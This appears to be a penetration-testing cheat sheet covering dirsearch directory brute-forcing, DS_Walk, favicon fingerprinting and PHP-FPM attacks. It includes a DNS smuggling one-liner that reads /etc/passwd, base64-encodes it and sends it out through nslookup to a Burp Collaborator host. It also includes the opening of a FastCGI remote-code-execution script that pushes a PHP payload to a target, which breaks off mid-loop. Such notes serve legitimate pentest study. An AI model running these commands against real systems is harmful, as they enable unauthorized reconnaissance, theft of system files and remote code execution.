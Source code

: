 ## dirsearch

> https://github.com/maurosoria/dirsearch

### General Usage

```console
-i    // includes specific status codes
-e    // excludes specific status codes
-x    // excludes specific status codes
-m    // specifies HTTP method
```

### Common Commands

```console
$ dirsearch -u http://<RHOST>:<RPORT>
$ dirsearch -u http://<RHOST>:<RPORT> -m POST
$ dirsearch -u http://<RHOST>:<RPORT> -e *
$ dirsearch -u http://<RHOST>:<RPORT>/ -R 5 -e http,php,html,css /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt
```

## DNS Smuggling

```console
GETID=$(cat /etc/passwd | head -n 1 | base64) && nslookup $GETID.0wdj2957gw6t7g5463t7063hy.burpcollborator.net
```

## DS_Walk

> https://github.com/Keramas/DS_Walk

```console
$ python ds_walk.py -u http://<RHOST>
```

## Favicon

> https://wiki.owasp.org/index.php/OWASP_favicon_database

```console
$ curl https://<RHOST>/sites/favicon/images/favicon.ico | md5sum
```

## FastCGI Process Manager (FPM)

> https://github.com/hannob/fpmvuln

> https://github.com/hannob/fpmvuln/blob/master/fpmrce

```bash
#!/bin/bash

# script will try to execute PHP code on target host

PAYLOAD="<?php echo 1382+3871;" # add payload here
FILENAMES="/usr/bin/phar.phar /usr/share/php/PEAR.php" # replace one or more file paths with on the target existing php files

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
```
